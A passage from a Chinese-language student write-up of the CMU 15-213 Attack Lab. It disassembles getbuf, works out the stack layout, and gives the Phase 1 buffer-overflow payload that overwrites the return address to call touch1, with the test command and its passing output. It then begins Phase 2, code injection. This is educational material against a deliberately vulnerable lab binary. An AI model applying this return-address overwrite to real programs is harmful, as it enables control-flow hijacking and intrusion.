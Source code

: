 而`touch1`函数的地址是`0x4017c0`。

在这其中我们调用`getbuf`函数来进行 buffer overflow 攻击，原本的该函数的下一条返回地址是`0x401976`，我们需要将其换成`0x4017c0`。我们现在对`getbuf`进行反汇编(nop 指令省去)：

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
```

对该过程进行分析：

1. 留出 40 个字节的位置
2. rdi = rsp
3. 调用 gets 函数
4. eax = 1
5. 恢复栈空间
6. 返回

要完成这个实验，我们需要直到几个值：

1. buf 的位置: 应该进入`getbuf`后，`%rsp - 40`之后的位置
2. 返回地址在栈中位置: 在调用`callq`函数时，我们会将`%rsp - 8`，然后将返回地址压入，然后将`%rip`设置为`getbuf`函数的地址。（同理，调用`retq`的时候，我们会把栈顶的地址赋给`%rip`，然后让`%rsp + 8`，也就是弹出返回地址）因此返回地址在栈中的位置也就是调用完`callq`之后`%rsp`的位置。
3. `touch1`函数的地址:`0x4017c0`

这样来看，buf 及其本地变量部分应该是分配了 40 个字节，而返回地址有 8 个字节，因此我们在写入的时候，前 40 个字节随意（不能有 0x0a,那个是换行符）。因为是小端法，最后 8 个字节应该是`0xc0 0x17 0x40`。

该阶段输入内容存储在`phase1.txt`中，内容如下：`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40`。输入命令`./hex2raw < phase1.txt | ./ctarget -q`进行测试(`-q`是指运行在本地电脑上)，结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```

成功！

### Phase 2：在 buf 中插入攻击代码并覆盖返回地址

在这个 phase 中我们需要在 buffer overflow 字符串中保留一部分攻击代码，让`test`函数返回到`touch2`，而且我们需要让`val`的值等于`cookie`的值。（而且这里我们不能直接让`test`返回到打印`Touch2!`那一句，因为前面有`vlevel = 2`，后面需要验证这个值是不是 2，如果直接跳到那一句的话，`vlevel`没有赋值，也肯定不等于 2，验证就会失败）。

